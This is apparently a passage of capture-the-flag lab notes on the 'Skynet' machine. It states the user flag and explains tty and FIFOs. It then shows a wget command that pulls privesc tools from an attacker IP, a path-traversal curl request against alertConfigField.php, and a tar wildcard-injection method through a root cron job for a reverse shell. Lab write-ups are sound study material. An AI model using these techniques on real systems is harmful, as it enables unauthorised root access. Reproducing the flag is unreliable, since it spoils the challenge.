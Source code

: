 User flag: 7ce5c2109a40f958099283600a9ae807 found in cat /home/milesdyson/user.txt

* **what is tty?**: tty command of terminal prints the file name of the terminal connected to standard input. tty is short of teletype, but known as a terminal it allows you to interact with the system by passing on the data \(you input\) to the system, and displaying the output produced by the system. Linux terminal uses a virtual teletype, called a pseudo-teletype \(PTS\) ,which handles the connections from all of the terminal windows. The multiplexor is the master, and the PTS are the slaves. The multiplexor is addressed by the kernel through the device file located at /dev/ptmx. The tty command will print the name of the device file that your pseudo-teletype slave is using to interface to the master. And that, effectively, is the number of your terminal window. a Teleype is an I/O device, allows messages to be typed, encoded, sent, received, decoded and printed
* **what is pipe/named pipe files**:
* **what is fifo**: fifo means first in, first out, meaning the order of bytes going in is equal to those going out, it's a named pipe. It is accessed as part of the filesystem. When processes exchange data via fifo, the kernel passes all data internally without writing to the filesystem. The name of a named pipe is the file name within the file system.
{% endhint %}

## 4\) Root Exploitation/Post-Exploitation

####  \(Root Privilege Escalation\) \(page 312 & 566 of pwk20\) Must obtain root flag

* how to get tools \(pspy64 or LinEnum\) on target to check for privesc?: `mkdir /tmp/privesc && wget -nd -np -R "index.html" -P /tmp/privesc --recursive http://10.10.171.176:8080/thinclient_drives/shareFol/`
  * `wget -nd -np -R "index.html -P /tmp/privesc --recursive` __: 

    after uploading the privesc script to the attacking machine's server \(chmod 700 or chmod u+x after, said to copy to home directory but wasnt necessary on this machine\)

  * `./pspy64 -pf >> /tmp/privesc/mouse.txt`
    * pf command: prints both command and file system events to stdout
  * to send it back to attacker to not view in terminal: directory path traversal with command `curl -s --data-urlencode urlConfig=../../../../../../../../../tmp/privesc/mouse.txt http://10.10.201.44/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php? >> read.txt`
* pspy64 returns a list of logs/cron jobs \(schedules tasks by time\), specifically _/usr/sbin/CRON -f_ \(sbin is admin exe\) which is run every minute by UID=0 \(root\) and /etc/crontab which payloadallthings recommends be enumerated if we have permission to write to these files \(we do\), it is recommended to **check inside the file if there are other paths with write permissions**
  * checking the contents of /etc/crontab and pspy64 reveal the bash script /home/milesdyson/backups/backup.sh is being called every minute \(and ran as root\), as well as calling the default system shell /bin/sh -c while reading the backups file. Listing the contents of the file reveal that it gets a shell, navigates to /var/www/html and makes a backup of everything in the directory using the tar cf  \* command, all in chronological order every minute. 

#### CRONJOBS: it is likely they will run as another user, so if you can influence the execution then you can run things as the user

* googling tar privilege escalation reveals there exists a vulerability in the tar cf  _command that leads to arbitrary code injection as root, enabling us to send a reverse shell on the compromised machine. The asterik_  symbol in Unix OS is considered a **"wildcard"** \(or meta character\) a symbol or set of symbols that represent other characters, usually used in ls or rm commands given a criteria. There are various security related issues that come with Unix wildcards, by using specially crafted filenames the attacker can inject arbitrary arguments to shell commands, including root.
* the issue arises when the attacker creates fake files with touch and a shell script with any command \(i.e sending a shell\). the tar binary has two options that can be used for poisoning, **--checkpoint\[=NUMBER\]** \(display progress messages every n record, default is 10\) and **--checkpoint-action=ACTION** \(execute ACTION on each checkpoint\). By using tar with these options, a specific action can be used after each checkpoint \(including malicious scripts for ACE under the user who starts tar\). the command tar cf   _seems benign but the issue is when the user creates a couple of fake files and a shell script that contains any random command. \*\*By using the_  wildcard in the tar command, the files are passed options to the tar binary and shell.sh is executed as root.\*\*
